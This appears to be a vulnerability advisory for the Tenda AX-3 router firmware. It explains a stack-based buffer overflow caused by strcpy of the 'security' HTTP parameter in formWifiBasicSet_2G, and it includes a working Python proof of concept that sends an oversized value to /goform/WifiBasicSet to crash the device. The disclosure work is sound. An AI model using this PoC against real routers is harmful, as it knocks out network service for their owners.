



# Tenda Vulnerability

Vendor:Tenda

Product:AX-3

Version:v16.03.12.10_CN(https://www.tenda.com.cn/material/show/3238)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function formWifiBasicSet_2G, the Wi-Fi security mode parameter is obtained from the HTTP request via v18 = websGetVar(wp, v17, "none"), where v17 is "security" or "security_5g" depending on the query. The value returned in v18 is then copied into the local buffer v39 using strcpy(v39, v18). The buffer v39 is a fixed-size stack buffer of 256 bytes (char v39[256]), while strcpy does not perform any bounds checking on the source string. By sending a crafted request with an excessively long security parameter , the attacker can cause strcpy to write past the end of v39, resulting in a stack-based buffer overflow. This overflow can corrupt adjacent stack data and cause a crash (Denial of Service).

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/WifiBasicSet"

security = "A"*7000
data = {
"security": security,
"doubleBand": "0"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>